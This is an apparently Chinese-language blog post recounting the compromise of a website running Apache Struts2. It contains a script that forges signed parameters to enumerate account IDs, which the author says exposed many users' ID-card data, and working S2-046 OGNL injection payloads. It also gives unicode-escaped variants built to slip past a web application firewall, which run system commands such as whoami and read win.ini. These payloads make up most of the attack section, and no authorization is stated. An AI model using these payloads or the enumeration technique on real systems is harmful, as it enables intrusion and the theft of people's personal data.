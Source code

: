 ```yaml
---
layout: post
title: struts2 绕过记录
date: 2020-09-28
category: webmember
---
```

# 记一次struts2 代码执行漏洞waf绕过

* 工作拿到一个网站www.xxxx.com,网站由于特殊性，参数都是进行加密处理。比如一个数据包会将所有参数的值按照不同规则拼接然后
进行md5加密，渗透入侵这种网站很难，无法修改参数，需要写解密程序，在进行一些功能探索后，发现了一个漏洞点。在申请后有一个下载身份功能，然后我通过编写参数解密程序遍历了appid，获取到了大量用户的身份证数据
参数解密代码为
```
with open('8.txt', 'r') as f:
    for i, name in enumerate(f.readlines()):
        ss = "xxxxxxxx".format(name.strip("\n"))
        new_ss = base64.b64encode(ss.encode('utf-8'))
        newss = "xxxxxxx"+str(new_ss,
                    'utf-8')
        # print(newss)
        m = hashlib.md5()
        m.update(newss.encode("utf8"))
        basestring = "xxxxxxxxxxxxx".format(
            ios=str(new_ss, 'utf-8'), sign=m.hexdigest().upper())
        with open("99.txt", 'a') as a:
            a.write(basestring + "\n")
```
由此遍历出所有存在的appid
* 转折点，通过访问/upload.do 发现了直接500错误
```
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor.intercept(ConversionErrorInterceptor.java:138)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.StaticParametersInterceptor.intercept(StaticParametersInterceptor.java:191)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.MultiselectInterceptor.intercept(MultiselectInterceptor.java:73)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.CheckboxInterceptor.intercept(CheckboxInterceptor.java:91)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.FileUploadInterceptor.intercept(FileUploadInterceptor.java:252)
```
发现存在strut2框架 于是我使用工具去跑 无果 因为有waf 然后通过一些简单的payload 发现了存在struts2-046漏洞 poc如下
```
%{(#sasxke='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('['+'tttpppppp'+'111]')).(#o.close())}"]
```
但是使用部分cmd exp 无法成功
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd /c dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"]
```
还是无法绕过waf 之后通过java特新 unicode编码执行代码 exp
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):(\u0028\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u005b\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u0027\u005d\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u003d\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u002e\u0067\u0065\u0074\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065\u0028\u0040\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u006f\u0067\u006e\u006c\u002e\u004f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u0040\u0063\u006c\u0061\u0073\u0073\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0050\u0061\u0063\u006b\u0061\u0067\u0065\u004e\u0061\u006d\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0043\u006c\u0061\u0073\u0073\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0073\u0065\u0074\u004d\u0065\u006d\u0062\u0065\u0072\u0041\u0063\u0063\u0065\u0073\u0073\u0028\u0023\u0064\u006d\u0029\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u003d\u0027\u0073\u0079\u0073\u0074\u0065\u006d\u0069\u006e\u0066\u006f\u0027\u0029\u002e\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003d\u0028\u0040\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0079\u0073\u0074\u0065\u006d\u0040\u0067\u0065\u0074\u0050\u0072\u006f\u0070\u0065\u0072\u0074\u0079\u0028\u0027\u006f\u0073\u002e\u006e\u0061\u006d\u0065\u0027\u0029\u002e\u0074\u006f\u004c\u006f\u0077\u0065\u0072\u0043\u0061\u0073\u0065\u0028\u0029\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0073\u0028\u0027\u0077\u0069\u006e\u0027\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u0073\u003d\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003f\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u003a\u007b\u0027\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068\u0027\u002c\u0027\u002d\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u0029\u0029\u002e\u0028\u0023\u0070\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u0023\u0063\u006d\u0064\u0073\u0029\u0029\u002e\u0028\u0023\u0070\u002e\u0072\u0065\u0064\u0069\u0072\u0065\u0063\u0074\u0045\u0072\u0072\u006f\u0072\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0074\u0072\u0075\u0065\u0029\u0029\u002e\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u003d\u0023\u0070\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u003d\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0073\u0074\u0072\u0075\u0074\u0073\u0032\u002e\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u0040\u0067\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0028\u0029\u002e\u0067\u0065\u0074\u004f\u0075\u0074\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u0029\u0029\u002e\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0063\u006f\u006d\u006d\u006f\u006e\u0073\u002e\u0069\u006f\u002e\u0049\u004f\u0055\u0074\u0069\u006c\u0073\u0040\u0063\u006f\u0070\u0079\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0072\u006f\u0073\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029)}"]
```


redirect:%24%7B\u0023\u0062\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0046\u0069\u006c\u0065\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0027\u0063\u003a\u002f\u0077\u0069\u006e\u0064\u006f\u0077\u0073\u002f\u0077\u0069\u006e\u002e\u0069\u006e\u0069\u0027\u0029\u0029\u002c\u0023\u0063\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0062\u0029\u002c\u0023\u0064\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0042\u0075\u0066\u0066\u0065\u0072\u0065\u0064\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0063\u0029\u002c\u0023\u0065\u003d\u006e\u0065\u0077\u0020\u0063\u0068\u0061\u0072\u005b\u0035\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0065\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u0065\u0029%7d




cmd.exe -c whoami
redirect:%24%7B\u0023\u0072\u0065\u0073\u0070\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u0072\u0065\u0071\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u0027\u0029\u002c\u0023\u0061\u003d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u005b\u005d\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0027\u0077\u0068\u006f\u0061\u006d\u0069\u0027\u007d\u0029\u0029\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u002c\u0023\u0062\u003d\u0023\u0061\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0064\u0069\u0073\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0044\u0061\u0074\u0061\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0023\u0062\u0029\u002c\u0023\u0062\u0075\u0066\u003d\u006e\u0065\u0077\u0020\u0062\u0079\u0074\u0065\u005b\u0032\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u0069\u0073\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u006d\u0073\u0067\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u0064\u0069\u0073\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u006d\u0073\u0067\u002e\u0074\u0072\u0069\u006d\u0028\u0029\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029%7D


成功拿下网站 

![struts]({{ site.url }}/assert/image/struts.jpg)

## 总结
* 遇到这种网站如果无法解密加密方式 无法对网站进行渗透
* 通过其他途径入侵web系统 如报错中的使用的漏洞框架
* 针对java的waf绕过方式的总结